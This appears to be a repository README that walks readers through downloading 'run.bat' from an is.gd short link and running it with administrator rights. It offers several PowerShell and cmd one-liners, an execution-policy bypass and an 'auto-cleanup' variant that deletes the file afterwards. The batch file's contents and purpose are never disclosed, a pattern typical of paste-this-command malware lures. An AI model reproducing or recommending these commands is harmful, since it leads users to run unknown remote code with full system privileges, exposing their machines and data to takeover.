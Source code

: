 # How to Run run.bat as Administrator

This guide shows you how to download and execute the `run.bat` file from this repository with administrator privileges.

## Prerequisites

- Windows operating system
- PowerShell (comes pre-installed on Windows 10/11)
- Administrator access to your computer

## Quick Start (Recommended)

### Option 1: PowerShell One-Liner
1. **Right-click** on the Start button and select **"Windows PowerShell"** or **"Terminal"**
2. Copy and paste this command:
```powershell
iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs
```
3. Press **Enter**
4. When prompted by UAC (User Access Control), click **"Yes"** to allow administrator access

### Option 2: Step-by-Step Method
1. **Open PowerShell**:
   - Right-click Start button → **"Windows PowerShell"** or **"Terminal"**

2. **Download the file**:
```powershell
iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"
```

3. **Run as Administrator**:
```powershell
Start-Process "run.bat" -Verb RunAs
```

4. **Confirm UAC prompt** by clicking **"Yes"**

## Alternative Methods

### Method 3: Command Prompt
1. **Open Command Prompt** (Win + R → type `cmd` → Enter)
2. Run this command:
```cmd
powershell -Command "iwr -UseBasicParsing 'https://is.gd/uvY8qR' -OutFile 'run.bat'; Start-Process 'run.bat' -Verb RunAs"
```

### Method 4: With Auto-Cleanup
If you want the batch file to be automatically deleted after running:
```powershell
iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs -Wait; Remove-Item "run.bat"
```

## Troubleshooting

### "Execution policy" error
If you get an execution policy error, run this first:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

### Internet connection issues
- Make sure you have an active internet connection
- Check if your firewall or antivirus is blocking the download
- Try running PowerShell as Administrator first

### UAC (User Access Control) not appearing
- Make sure you're not already running as Administrator
- Check your UAC settings in Windows Security settings

## Security Notice

⚠️ **Important**: Only run batch files from trusted sources. This script will execute with administrator privileges, which means it has full access to your system. Make sure you trust the source before proceeding.

## What Happens Next?

After running the command:
1. The `run.bat` file will be downloaded to your current directory
2. A UAC prompt will appear asking for administrator permission
3. Click "Yes" to proceed
4. The batch file will execute with administrator privileges
5. Follow any additional prompts or instructions that appear

## Need Help?

If you encounter any issues:
1. Make sure you have administrator rights on your computer
2. Check your internet connection
3. Verify that Windows Defender or antivirus isn't blocking the download
4. Try running PowerShell as Administrator first

---

*Last updated: September 2025*
